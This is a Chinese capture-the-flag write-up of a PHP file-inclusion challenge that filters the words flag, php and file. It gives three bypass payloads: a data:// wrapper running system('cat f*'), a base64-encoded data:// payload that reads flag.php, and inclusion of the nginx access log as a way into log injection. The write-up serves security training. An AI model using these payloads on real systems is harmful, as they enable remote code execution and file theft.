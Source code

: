 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

flag

php

file





## 第一种

依旧利用data伪协议

同时*匹配字符串

```
?c=data://text/plain,<?= system("cat f*");?>
```

![image-20250402190419870](./assets/image-20250402190419870.png)

有一点要注意的是

由于过滤了php

因此php代码头不能写为<?php

但是可以写为<?=

等效于<?php



## 第二种

base64加密php代码

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

![image-20250402190542264](./assets/image-20250402190542264.png)

![image-20250402190530998](./assets/image-20250402190530998.png)



## 第三种

日志注入

```
?c=/var/log/nginx/access.log
```

![image-20250402190609122](./assets/image-20250402190609122.png)

可以读取日志文件，也就是可以尝试日志注入